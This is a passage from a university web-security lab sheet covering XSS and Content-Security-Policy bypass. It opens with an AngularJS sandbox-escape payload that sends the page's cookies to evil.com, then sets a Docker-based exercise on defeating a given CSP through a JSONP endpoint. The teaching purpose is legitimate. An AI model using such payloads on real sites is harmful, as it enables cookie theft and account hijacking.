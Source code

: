 ```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script>
<div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };window.location = "https://evil.com/?nomnom="+document.cookie;//');}} </div>
```

[HackTricks documents a large variety of methods for bypassing Content-Security-Policy headers using third-party endpoints.](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass)

### 6.2.5 Bypassing CSP Exercise (Enthusiastics only)

For this exercise, download [docker-compose.xss\_csp.yml](files/lab6/docker-compose-files/docker-compose.xss\_csp.yml).

```
wget https://raw.githubusercontent.com/uwacyber/cits3006/2022s2/cits3006-labs/files/lab6/docker-compose-files/docker-compose.xss_csp.yml
```

{% hint style="info" %}
M1/M2 users: make the same changes as you did in Section 6.2.2.
{% endhint %}

Run the Docker containers using the following command.

```
sudo docker-compose -f docker-compose.xss_csp.yml up
```

This exercise is a lot harder than the other XSS exercises. The website now uses the following Content-Security Policy (you can see it by viewing the HTML content on the website).

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://code.jquery.com/ https://www.googleapis.com; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://fonts.gstatic.com/; font-src https://fonts.googleapis.com https://fonts.gstatic.com/;">
```

You need to research a method to exploit the XSS vulnerability with this CSP. Below are some things to consider.

1. The CSP prevents exfiltrating data using `fetch`.
2. One of the allowed sources has a JSONP endpoint that you can use in your exploit.
3. If you have the correct method but it is not working, **make sure you have a proper URL encoding in your payload**! For example, the `+` in a URL decodes to `.` (i.e., a full stop).

## 6.3. Conclusion

In this lab, we explored ways to exploit web vulnerabilities, particularly SQLi and XSS, to gain unauthorized access to data and systems.

This is the final lab in CITS3006. You can now focus on studying for your remaining assessment items (lab quiz 3 and also the project).



Credit: Thanks to Alex Brown for making this a fun lab!
